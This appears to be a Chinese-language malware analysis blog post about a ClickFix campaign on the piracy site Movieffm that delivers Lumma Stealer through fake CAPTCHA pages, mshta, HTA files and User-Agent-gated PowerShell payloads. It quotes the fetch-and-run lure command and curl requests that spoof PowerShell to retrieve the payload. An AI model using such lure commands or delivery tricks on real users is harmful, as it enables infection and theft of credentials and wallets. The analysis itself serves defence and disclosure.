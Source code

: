 ```yaml
---
layout: post
title: "惡意程式分析報告：透過盜版影音網站 Movieffm 散播的 Lumma Stealer 攻擊活動 "
subtitle: ""
date: 2025-09-03
author: "Peter"
header-img: "img/post-bg-hack.jpg"
tags: [資安, 惡意程式分析, lumma stealer, clickfix]
---
```


本報告旨在分析一起利用盜版影音網站 Movieffm 進行的惡意軟體攻擊活動。攻擊者首先在該網站中植入混淆的 JavaScript 腳本。該腳本會對訪問者進行瀏覽器指紋辨識 (Fingerprinting)，針對符合條件的目標，觸發一個偽裝成 CAPTCHA 的惡意釣魚頁面。

此釣魚頁面會誘導使用者複製並執行一段 `mshta.exe` 指令，以下載並執行一個 HTA (HTML Application) 檔案。後續的攻擊鏈中，攻擊者再次利用 User-Agent 指紋辨識技術，確保只有來自 PowerShell 的請求才能接收到最終的 Lumma Stealer 惡意腳本 。

一旦 Lumma Stealer 成功執行，它將竊取受害者電腦中的瀏覽器紀錄、加密貨幣錢包、系統憑證等敏感資料，並回傳至攻擊者的 C2 (Command and Control) 伺服器。建議使用者應避免訪問高風險網站，並採用具備惡意網站過濾功能的瀏覽器或安全插件，以降低此類攻擊的風險。

## 一、攻擊鏈分析 (Attack Chain Analysis)

### 階段一：初始入侵與前端腳本植入

分析顯示，Movieffm 網站的頁面中被植入了外部 JavaScript 腳本。經分析，此腳本會動態向遠端伺服器請求並載入一段經過高度混淆的程式碼。

前端腳本
![movieffm javascript](/img/in-post/movieLumma/image-3.png)

該腳本的主要功能是動態建構並發出一個請求，用以載入更複雜的遠端 JavaScript 腳本。透過 Burp Suite 進行流量攔截，可以看到伺服器回應的 JavaScript 內容經過高度混淆。

前端回傳的 javascript response
![burp response](/img/in-post/movieLumma/image-4.png)

初步分析這份龐大的混淆腳本後，確認其核心功能之一是進行使用者 Fingerprinting。透過分析使用者的環境以精準投放 payload 或規避網路或防毒軟體的偵查。

對惡意腳本所在的伺服器 IP 進行 `dig` 與 `shodan` 調查，僅能確認其由 `servers.com` 提供服務，並架設於 Nginx 上，顯示攻擊者利用了常見的託管服務來隱藏其真實基礎設施。
![shodan](/img/in-post/movieLumma/image-6.png)

### 階段二：社交工程與惡意指令傳遞

符合特定指紋的訪問者會被重新導向至一個 CAPTCHA 驗證的釣魚頁面，此頁面託管於 Cloudflare 保護的網域後方，且每次訪問的網域名稱皆不相同，增加了追蹤的難度。

![alt text](/img/in-post/movieLumma/image-8.png)

> 此攻擊手法並非首例，這個手法被稱作 ClickFix ，常伴隨 Lumma Stealer 。詳情可參閱[此連結][1]。

此釣魚頁面的網址每次都不同，但透過 WHOIS 查詢，均發現其利用 Cloudflare 進行反向代理，增加了追蹤其來源伺服器的難度。

whois 查詢結果
![whois-cloudflare](/img/in-post/movieLumma/image-14.png)

當使用者點擊頁面上的 "I'm not a robot" 核取方塊時，網頁會執行一段 JavaScript，將一串惡意指令複製到使用者的剪貼簿中，並同時跳出一個彈窗，指示使用者按下 Ctrl + R（或 Cmd + R），然後貼上並執行指令。

頁面誘騙使用者點擊「I'm not a robot」按鈕。
![alt text](/img/in-post/movieLumma/image-9.png)

被複製的指令如下
```powershell
mshta http://malicious.site/gbg7/rhfb.c
```

> mshta.exe 是 Windows 內建的合法程式，常用於執行 HTA 檔案，但也因此成為攻擊者執行任意程式碼的常見「離地攻擊」(Living-off-the-Land) 手段。關於更多請參照[連結][2]。


### 階段三：Payload 下載與執行

為了分析 `mshta` 將要執行的內容，我們使用 `curl` 工具直接請求該 HTA 檔案。
```bash
curl -i "http://malicious.site/gbg7/rhfb.c"
```
![alt text](/img/in-post/movieLumma/image-11.png)

伺服器回傳的 HTA 檔案內容非常簡短，其核心是執行一段 PowerShell 指令，以下載並執行另一個遠端腳本。

當我們嘗試直接用 curl 訪問 PowerShell 將要下載的 URL時，卻發現請求被重新導向到無害的 Steam 網站，暗示伺服器端存在額外的檢查機制。

curl 返回結果為 redirect
![curl fingerprinting](/img/in-post/movieLumma/image-12.png)

我們推測伺服器會驗證請求的 User-Agent。因此，我們在 curl 指令中模擬 PowerShell 的 User-Agent 再次發出請求：
```bash
curl -s -X GET "http://malicious.site/gbg7/" -H "User-Agent: Mozilla/5.0 (Windows NT; Windows NT 10.0; en-US) WindowsPowerShell/5.1.19041.1320"
```

這次，伺服器成功回傳了真正的惡意 PowerShell 腳本，只有來自受害者機器上 PowerShell 程式的流量才會收到惡意 payload，而來自普通瀏覽器或分析工具的請求則會被另外重新導向。

模擬 powershell 結果為惡意腳本
![powershell user agent response](/img/in-post/movieLumma/image-13.png)

### 階段四：最終目標 - Lumma Stealer 資訊竊取軟體

我們將取得的 PowerShell 腳本上傳至 `any.run` 沙盒環境進行動態分析。

分析報告確認，該腳本的最終 payload 為 Lumma Stealer，這是一款知名的資訊竊取惡意軟體。一旦執行，它會掃描受感染的電腦，竊取儲存在瀏覽器中的敏感資料（如密碼、Cookies、信用卡資訊）、加密貨幣錢包、系統資訊等，並將所有資料打包後傳送到攻擊者的 C2 (Command & Control) 伺服器。

沙盒分析連結: [https://app.any.run/tasks/29c82282-2320-4c94-9529-b5591287fe03][3]

![any.run result](/img/in-post/movieLumma/image-15.png)


## 緩解與建議
為防範此類攻擊，建議使用者採取以下措施：

避免使用盜版或不受信任的網站服務：正版服務通常具備更完善的安全維護，較不易成為惡意程式的溫床。

使用具備防護功能的瀏覽器與擴充套件：

- 瀏覽器如 Microsoft Edge 內建的 SmartScreen 或 Google Chrome 的安全瀏覽 (Safe Browsing) 功能，能有效阻擋已知的惡意網站。
- 安裝如 uBlock Origin 等廣告攔截器，能有效阻止惡意的彈出視窗和腳本執行。

保持高度警覺，切勿執行來路不明的指令：任何引導你在終端機、PowerShell 或執行對話框中輸入的指令，都可能對你的電腦造成無法挽回的損害。務必對這類要求保持懷疑。

## 責任通報與生態系防禦
本次分析中相關連結已向相關單位通報。 

servers.com
![alt text](/img/in-post/movieLumma/image-16.png)

sollutium-nl
![alt text](/img/in-post/movieLumma/image-18.png)

movieffm.net
![alt text](/img/in-post/movieLumma/image-19.png)

## 附錄：樣本資訊
本次分析過程中發現的相關腳本與樣本已整理至以下 GitHub repo：
[https://github.com/PPKan/malware_samples/tree/main/movieffm_samples][4]


[1]:https://www.trendmicro.com/zh_tw/research/25/g/lumma-stealer-returns.html
[2]:https://www.cnblogs.com/backlion/p/10491616.html
[3]:https://app.any.run/tasks/29c82282-2320-4c94-9529-b5591287fe03
[4]:https://github.com/PPKan/malware_samples/tree/main/movieffm_samples
